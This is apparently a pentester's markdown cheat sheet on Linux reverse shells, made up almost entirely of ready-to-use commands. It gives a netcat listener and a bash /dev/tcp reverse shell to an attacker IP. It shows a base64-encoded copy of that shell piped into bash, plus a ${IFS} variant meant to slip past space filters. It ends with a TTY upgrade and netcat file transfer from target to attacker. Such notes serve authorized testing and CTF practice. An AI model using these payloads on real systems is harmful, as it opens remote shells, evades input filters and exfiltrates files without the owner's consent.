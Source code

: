 # Linux Shells

All things linux shells

## Basic Reverse Shell

### Start Listener

```bash
rlwrap -crA nc -lvnp 9001
```

**Note:** Prepending `rlwrap` provides a more user-friendly shell experience

### Launch Connection

```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/$IP/9001 0>&1
```

**Note:** Try different payloads from [RevShells](https://www.revshells.com) if a simple bash one doesn't work

```bash
# Base64 encode if necessary (can potentially allow us to bypass certain restrictions)
echo 'bash -i >& /dev/tcp/192.168.1.10/9001 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==
```

We can now use the following payload:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==' | base64 -d | bash
```

### Upgrade Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
ENTER
export TERM=xterm
```

**Note:** `export TERM=xterm` allows you clear screen with `ctrl+l`

### Filter Bypass

```bash
# Space filters, replacing spaces with `${IFS}` (possibly `${IFS%??}` if that doesn't work)
echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg=='${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
```

### Download files

```bash
# On kali
nc -lvnp 1234 > example.txt

# On target
nc 192.168.1.10 1234 < example.txt
```
